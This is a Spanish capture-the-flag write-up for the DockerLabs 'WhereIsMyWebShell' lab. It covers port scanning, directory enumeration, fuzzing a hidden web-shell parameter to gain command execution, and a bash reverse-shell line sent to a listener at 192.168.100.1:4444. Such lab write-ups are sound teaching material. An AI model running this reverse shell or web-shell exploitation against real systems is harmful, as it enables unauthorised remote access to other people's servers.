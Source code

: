 # DockerLabs - WhereIsMyWebShell

## Información General

- **Nombre del CTF:** DockerLabs
- **Categoría:** Explotación web
- **Dificultad:** Media
- **Fecha:** 23/01/2025

## Descripción del Desafío

El desafío **WhereIsMyWebShell** plantea un entorno donde el objetivo es descubrir y explotar una vulnerabilidad en un servidor web para subir o localizar una **web shell**, ganando acceso remoto al sistema. 

## Solución

### 1. Despliegue de la máquina

Como es de esperar, primero ejecutaremos el script proporcionado junto con la máquina para desplegar el laboratorio. Nos aparecerá un mensaje informándonos de la IP utilizada por la máquina vulnerable, que en este caso corresponde con la `192.168.100.2`.

```bash
sudo bash auto_deploy.sh whereismywebshell.tar
```

### 2. Análisis de vulnerabilidades

Comenzamos con un escaneo básico del servidor para identificar servicios activos:

```bash
nmap -p- -sS -sC -sV --min-rate 5000 -n -vvv -Pn 192.168.100.2
```

- `-p-`: Escanea todos los puertos disponibles (de 1 a 65535).
- `-sS`: Realiza un escaneo SYN (también conocido como escaneo "sigiloso" o "half-open"), que es más rápido y menos detectable en comparación con un escaneo completo de conexiones TCP.
- `-sC`: Ejecuta scripts predeterminados de Nmap (Nmap Scripting Engine) que proporcionan información adicional sobre los servicios detectados, como versiones y posibles vulnerabilidades.
- `-sV`: Detecta la versión de los servicios que se están ejecutando en los puertos abiertos.
- `--min-rate`: Establece una tasa mínima de envío de paquetes, en este caso de 5000 paquetes por segundo, lo que acelera el escaneo.
- `-n`: Desactiva la resolución de nombres DNS, lo que evita que Nmap intente resolver las direcciones IP a nombres de dominio, lo que mejora la velocidad del escaneo.
- `-vvv`: Establece un nivel de verborrea máximo, proporcionando información detallada sobre lo que Nmap está haciendo en cada paso del escaneo.
- `-Pn`: Desactiva el ping previo al escaneo, lo que significa que Nmap no hará un "ping" para verificar si el host está activo antes de realizar el escaneo de puertos. Esto es útil cuando el objetivo puede estar bloqueando pings o para escanear máquinas sin respuesta a los pings.

![image](https://github.com/eliferrob/CTFs/blob/main/DockerLabs%20-%20WhereIsMyWebShell/assets/1.png)

**Resultados del escaneo:**

- Puerto 80 abierto: Servidor HTTP.

#### Análisis del servicio HTTP

Abrimos el navegador y accedemos a `http://192.168.100.2`. Allí encontramos una página web simple, y al final de la misma, un consejo dejado por su creador recomendándonos explorar el directorio "/tmp". Usamos la herramienta `gobuster` para enumerar directorios ocultos (requiere instalación previa):

```bash
gobuster dir -u http://192.168.100.2 -w /usr/share/wordlists/directory-list-2.3-medium.txt -x txt,html,php,py,sh
```

- `gobuster`: Es la herramienta que se utiliza para realizar la enumeración de directorios y archivos en un servidor web.
- `dir`: Indica que el modo de operación es búsqueda de directorios y archivos.
- `-u`: Especifica la URL del servidor web que se está escaneando.
- `-w`: Define el archivo de lista de palabras que contiene posibles nombres de directorios y archivos a buscar en el servidor. En este caso, se utilizaremos una lista estándar con nombres comunes.
- `-x`: Define las extensiones de archivos que se probarán para cada entrada en la lista de palabras. 

![image](https://github.com/eliferrob/CTFs/blob/main/DockerLabs%20-%20WhereIsMyWebShell/assets/2.png)

**Resultados relevantes:**

- `shell.php`
- `warning.html`

### 3. Explotación

Inspeccionamos el archivo `warning.html` y encontramos lo siguiente:

![image](https://github.com/eliferrob/CTFs/blob/main/DockerLabs%20-%20WhereIsMyWebShell/assets/3.png)

Al intentar acceder a `shell.php`, no obtenemos ninguna respuesta visible. Esto sugiere que el archivo está esperando un parámetro específico para ejecutar comandos, algo similar a:

```bash
http://192.168.100.2/shell.php?[parametro]=whoami
```

Nuestro objetivo es descubrir cuál es ese parámetro desconocido. Para ello, utilizaremos **wfuzz** y probaremos diferentes nombres de parámetros extraídos de un diccionario común.

```bash
wfuzz -c --hl=0 -t 200 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://172.17.0.2/shell.php?FUZZ=whoami"
```

- `wfuzz`: Herramienta utilizada para realizar fuzzing en aplicaciones web.
- `-c`: Habilita la salida en color para facilitar la lectura de los resultados.
- `--hl=0`: Filtra las respuestas basándose en la longitud del contenido. En este caso, muestra solo las respuestas cuya longitud es diferente de 0 (útil para evitar respuestas vacías o irrelevantes).
- `-t 200`: Configura 200 hilos de ejecución en paralelo, acelerando significativamente el proceso.
- `-w`: Especifica el diccionario de palabras que se utilizará. Este diccionario contiene una lista de posibles nombres de parámetros o directorios.
- `-u "http://172.17.0.2/shell.php?FUZZ=whoami"`: Define la URL objetivo. La palabra clave `FUZZ` será reemplazada por cada palabra del diccionario. El parámetro reemplazado (`FUZZ`) se utilizará para intentar ejecutar el comando `whoami`.

![image](https://github.com/eliferrob/CTFs/blob/main/DockerLabs%20-%20WhereIsMyWebShell/assets/4.png)

La ejecución del comando nos devuelve como resultado el parámetro "parameter". Esto sugiere que hemos encontrado el parámetro correcto. Procedemos a verificarlo directamente en la web, y confirmamos que efectivamente hemos conseguido un **RCE** (Ejecución Remota de Comandos).

![image](https://github.com/eliferrob/CTFs/blob/main/DockerLabs%20-%20WhereIsMyWebShell/assets/5.png)

Ahora crearemos redactaremos una línea de código para ejecutar una **Reverse Shell** y ganar así acceso a la máquina. Nos dirigimos al sitio web: https://tex2e.github.io/reverse-shell-generator/index.html

![image](https://github.com/eliferrob/CTFs/blob/main/DockerLabs%20-%20WhereIsMyWebShell/assets/6.png)

```bash
bash -i >& /dev/tcp/192.168.100.1/4444 0>&1
```

Abrimos Burpsuite y utilizamos su "Encoder" para codificar el comando en `URL`, modificándolo ligeramente:

![image](https://github.com/eliferrob/CTFs/blob/main/DockerLabs%20-%20WhereIsMyWebShell/assets/7.png)

Ponemos la máquina en modo escucha con la siguiente orden:

```bash
nc -nlvp 4444
```

![image](https://github.com/eliferrob/CTFs/blob/main/DockerLabs%20-%20WhereIsMyWebShell/assets/8.png)

Colocamos el resultado en la URL justo detrás del parámetro y se nos abrirá una shell en la terminal.

![image](https://github.com/eliferrob/CTFs/blob/main/DockerLabs%20-%20WhereIsMyWebShell/assets/9.png)

![image](https://github.com/eliferrob/CTFs/blob/main/DockerLabs%20-%20WhereIsMyWebShell/assets/10.png)


### 4. Escalada de Privilegios

Una vez dentro, nos dirigimos al directorio "/tmp", ya que en el sitio web nos aconsejaron visitarlo. Listamos el contenido del mismo con `ls -la` para que mostrar también los archivos ocultos y encontramos un fichero llamado `secret.txt`. Lo visualizamos con `cat` y obtenemos la contraseña del usuario root. 

¡Hemos tomado el control de la máquina!

![image](https://github.com/eliferrob/CTFs/blob/main/DockerLabs%20-%20WhereIsMyWebShell/assets/11.png)

## Lecciones Aprendidas

- La validación de archivos en los formularios de subida es crucial para evitar la ejecución de web shells.
- La enumeración de directorios y análisis manual son esenciales en desafíos web.

## Recursos

- [Documentación oficial de PHP](https://www.php.net/)
- [Herramientas utilizadas: Nmap, Gobuster, cURL](https://github.com/tools)